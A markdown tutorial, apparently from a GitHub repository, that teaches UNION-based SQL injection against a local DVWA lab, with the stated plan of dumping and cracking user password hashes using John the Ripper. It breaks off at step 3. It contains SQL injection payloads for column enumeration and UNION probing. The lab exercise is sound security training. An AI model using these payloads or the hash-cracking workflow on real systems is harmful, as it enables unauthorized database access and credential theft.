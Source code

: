 # Union-Based SQL Injection + Hash Dumping + Cracking with John

This markdown file explains how to:

1. Use **UNION-based SQL Injection** to enumerate DB info.
2. Extract user-password hash pairs from the `users` table.
3. Save the hashes.
4. Crack them with `rockyou.txt` + `John the Ripper`.

---

## 🔧 Prerequisites

- DVWA running locally (`http://localhost/dvwa/`)
- `requests`, `beautifulsoup4` installed
- `John the Ripper` installed
- `rockyou.txt` wordlist (unzipped)

---


## 🧠 Step-by-Step: SQL Injection with UNION

### Step 1 - Find number of columns

Use payload:

```
1' ORDER BY 1 -- 
1' ORDER BY 2 -- 
1' ORDER BY 3 -- 
```

Increase the number until you get an error. That tells you how many columns are returned by the original query.

> Let’s say the error happens at `ORDER BY 5` → There are **4 columns**.

---

### Step 2 - Find visible column

Inject:

```
1' UNION SELECT 1,2,3,4 -- 
```

This helps you see which columns are **visible on screen**, so you know where to place your payload.

---

### Step 3 - Get DB name
